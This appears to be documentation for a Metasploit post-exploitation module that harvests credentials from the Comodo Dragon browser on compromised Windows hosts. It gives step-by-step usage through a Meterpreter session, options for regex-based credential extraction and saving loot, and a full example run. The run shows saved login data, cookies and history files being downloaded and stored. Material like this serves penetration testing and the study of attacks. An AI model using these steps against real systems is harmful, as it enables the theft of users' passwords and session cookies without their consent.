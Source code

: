 ## Module Description

This post-exploitation module gathers artifacts found on comodo related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/comodo
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/comodo) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Comodo's parent folder found
[*] Comodo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Login Data
[*] Comodo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513125515_default_192.168.56.106_comodoLoginData_429364.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513125515_default_192.168.56.106_EXTRACTIONSLogin_329462.bin
[*] Comodo's parent folder found
[*] Comodo's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Cookies
[*] Comodo Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513125515_default_192.168.56.106_comodoCookies_259188.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513125516_default_192.168.56.106_EXTRACTIONSCooki_639838.bin
[*] Comodo's parent folder found
[*] Comodo's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\History
[*] Comodo History downloaded
[+] File saved to:  /root/.msf4/loot/20210513125516_default_192.168.56.106_comodoHistory_353947.bin

[*] no such column: lower_term
[*] Comodo's parent folder found
[*] Comodo's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Visited Links
[*] Comodo Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513125516_default_192.168.56.106_comodoVisitedLi_752304.bin

[*] file is not a database
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
 